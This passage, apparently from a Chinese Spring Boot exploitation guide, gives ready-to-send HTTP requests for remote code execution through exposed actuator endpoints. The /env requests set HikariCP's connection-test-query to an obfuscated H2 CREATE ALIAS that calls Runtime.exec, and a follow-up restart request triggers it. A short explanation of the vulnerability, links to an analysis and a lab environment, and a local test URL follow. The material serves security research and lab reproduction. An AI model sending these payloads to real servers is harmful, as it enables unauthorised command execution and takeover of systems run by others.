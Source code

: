 spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```

spring 2.x（无回显执行命令）

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```

**步骤二：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. spring.datasource.hikari.connection-test-query 属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
2. 其属性对应 HikariCP 数据库连接池的 connectionTestQuery 配置，定义一个新数据库连接之前被执行的 SQL 语句
3. restart 重启应用，会建立新的数据库连接
4. 如果 SQL 语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE 漏洞

**漏洞分析：**

​ [remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)

**漏洞环境：**

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/actuator/env
```
